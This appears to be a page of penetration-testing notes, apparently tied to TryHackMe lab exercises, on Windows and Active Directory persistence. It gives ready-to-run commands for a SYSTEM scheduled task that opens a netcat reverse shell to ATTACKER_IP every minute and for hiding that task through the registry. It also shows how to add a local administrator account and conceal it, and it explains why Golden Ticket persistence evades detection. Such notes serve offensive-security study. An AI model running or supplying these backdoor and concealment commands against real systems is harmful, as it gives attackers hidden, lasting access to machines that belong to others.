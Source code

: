 ## Scheduled Tasks

{% code overflow="wrap" fullWidth="true" %}
```powershell
# Create a scheduled task which runs every single minute (in a real-world scenario not that often)
schtasks /create /sc minute /mo 1 /tn THM-TaskBackdoor /tr "c:\tools\nc64 -e cmd.exe ATTACKER_IP 4449" /ru SYSTEM
schtasks /query /tn thm-taskbackdoor
# Making Our Task Invisible
c:\tools\pstools\PsExec64.exe -s -i regedit
# All scheduled tasks are stored in HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\
# There we will find a registry key with the task name, under which a value "SD" contains the security descriptor. Erase that value > Delete.
schtasks /query /tn thm-taskbackdoor ERROR: The system cannot find the file specified. # after that, the task cannot be found
```
{% endcode %}

## Create SYSTEM user&#x20;

{% code overflow="wrap" %}
```bash
# We need Local Admin rights
net user USER PASS /add
net localgroup Administrators USER /add
# For RDP or WinRM
net localgroup "Remote Management Users" USER /add
# Check it works
net localgroup Administrators
# Hide Newly Created Local administrator
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList" /t REG_DWORD /v $USER /d 0 /f
```
{% endcode %}

## Golden Tickets

This attack can only be performed after domain compromise, resulting in obtaining the NTLM hash for the krbtgt account either via dumping the NTDS.dit AD database and extracting credentials, or via the DCSync attack discussed previously.&#x20;

This is an excellent persistence mechanism because a Golden Ticket can be created for real users that exist in the domain and can be difficult to detect because:

* They are valid TGTs.&#x20;
* Windows event logs do not alert on a maliciously created TGT.
* Resetting an impersonated account’s password does not invalidate the Golden Ticket.&#x20;

To invalidate a Golden Ticket, the password for the krbtgt account must be changed twice. One caveat to this is that the first change needs to be replicated across the entire domain before the second password change can happen, which can take up to 24 hours.&#x20;
